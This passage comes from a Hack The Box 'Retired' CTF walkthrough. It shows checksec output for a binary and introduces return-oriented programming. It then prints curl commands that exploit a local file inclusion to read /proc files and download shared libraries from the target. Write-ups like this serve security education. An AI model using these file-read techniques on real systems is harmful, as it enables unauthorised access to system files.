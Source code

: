```sh
┌──(root㉿kali)-[~/htb/retired]
└─# checksec --file=activate_license
[*] '/root/htb/retired/activate_license'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Buffer Overflow

The binary has a number of protections including RELRO and NX enabled. There is an exploit we can use to get around these called **Return Oriented Programming (ROP)** which lets us control the program flow even though we can't write to the stack directly. There's lots of great articles out there showing us how to use ROP gadgets, and a Python library called [Pwntools](https://docs.pwntools.com/en/stable/) which makes it much easier to write our script. If you need a primer on pwntools then try [this free room](https://tryhackme.com/room/introtopwntools) on TryHackMe. A few useful reads are [this](https://docs.pwntools.com/en/stable/rop/rop.html), [this](https://fir3wa1-k3r.github.io/2020/02/13/PWNing-binary-with-NX-and-ASLR-protections-enabled.html), [this](https://blog.xpnsec.com/rop-primer-level-0/), and [this](https://www.youtube.com/watch?v=ryK4Xv9Fw-o), [this](https://www.youtube.com/watch?v=HjiiYB4AXI8) and [this](https://www.youtube.com/watch?v=Ge01IzQH3Rg) for videos.

The basic idea is that we can't easily write to the stack to take control of the pointer like we did in the [Buffer Overflow room](https://pencer.io/ctf/ctf-thm-bofprep/) at TryHackMe. Instead we have to use instructions that are present in the shared object files used by the binary we want to exploit.

First we have to grab a couple of .so files that the binary uses. We can see those by looking at the maps file on the box:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# curl -s "http://10.10.11.154/index.php?page=/proc/$(curl -s "http://10.10.11.154/index.php?page=/proc/sched_debug" | grep activate_licens | awk '{print $3}')/maps"
```

## Shared Object Binaries

The above uses the [sched_debug](https://doc.opensuse.org/documentation/leap/archive/15.0/tuning/html/book.sle.tuning/cha.tuning.taskscheduler.html#sec.tuning.taskscheduler.cfs.debug) file to find the current pid of the activate_license binary running on the box then gets the maps file for it. From the long list these are the two files we're interested in:

```text
7f13f36a2000-7f13f36c7000 r--p 00000000 08:01 3634                       /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f13f3867000-7f13f3877000 r--p 00000000 08:01 5321                       /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6
```

We have the path to two shared object, let's download them:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# curl -s "http://10.10.11.154/index.php?page=/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6" -o libsqlite3.so.0.8.6

┌──(root㉿kali)-[~/htb/retired]
└─# curl -s "http://10.10.11.154/index.php?page=/usr/lib/x86_64-linux-gnu/libc-2.31.so" -o libc-2.31.so
```
